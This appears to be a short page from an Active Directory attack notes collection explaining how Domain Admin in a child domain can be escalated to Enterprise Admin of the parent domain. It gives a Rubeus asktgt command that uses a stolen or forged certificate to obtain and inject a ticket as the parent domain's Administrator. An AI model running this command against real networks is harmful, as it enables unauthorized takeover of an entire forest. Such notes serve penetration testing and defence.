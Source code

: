 # DA to EA

When you get DA to a domain via [#pkinit-authentication](../misc/ad-authentication.md#pkinit-authentication "mention"), for instance with [esc1.md](../adcs/exploitation/esc1.md "mention"), you can get Enterprise Admin of a parent domain via:

```powershell
> Rubeus asktgt /user:parentdomain.local\Administrator /dc:dc.parentdomain.local /certificate:<cert> /password:<pass> /nowrap /ptt
```
